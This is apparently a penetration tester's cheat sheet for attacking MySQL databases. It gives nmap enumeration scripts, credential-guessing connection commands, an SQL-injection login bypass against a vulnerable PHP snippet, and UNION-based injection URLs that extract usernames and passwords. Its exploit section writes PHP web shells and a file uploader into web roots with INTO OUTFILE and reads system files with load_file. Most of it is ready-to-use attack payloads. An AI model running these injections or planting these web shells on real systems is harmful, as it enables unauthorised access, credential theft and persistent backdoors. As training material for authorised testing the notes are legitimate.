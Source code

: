 MySQL Port 3306

##### Enumeration

````
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.11.1.8 
````

##### Connecting

```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'sdfquelw0kly9jgbx92'
ERROR 1044 (42000): Access denied for user 'lavita'@'localhost' to database 'sdfquelw0kly9jgbx92'

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'lavita' #  lavita db
MariaDB [lavita]> 
```

##### Commands

```sql
show databases;
show tables;
use db_name;
select * from passwords;
```

### Login

Try logging in as someone you know is a valid user, and with "%" as the password.

```php
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

```bash
> admin' or 1=1-- -
```

#### Modifying Exploit

We found the webroot to be /var/www/html/. Note that I changed the query from the url to a header in a request, so at the end of the request, I put view=... I also changed it from a GET to a POST with "Content-Type: application/x-www-form-urlencoded".

From:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5
```
To:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”

#or for windows
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

Upload php command injection.

```bash
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file.

```bash
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Inside URL:

```bash
http://192.168.11.35/comment.php?id=738 order by 1
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,5,6
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,@@version,6
# To!discover!the!current!user!being!used!for!the!database!connection:
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,user(),6
# View the tables
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
# Look into users table
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'
# Extract username and password
http://192.168.11.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

#### Enumeration

```bash
SELECT * FROM mysql.user;
```

##### Notes

- If you have a valid password, try using that same password for the admin accounts (root)
- mycli solved ssl problem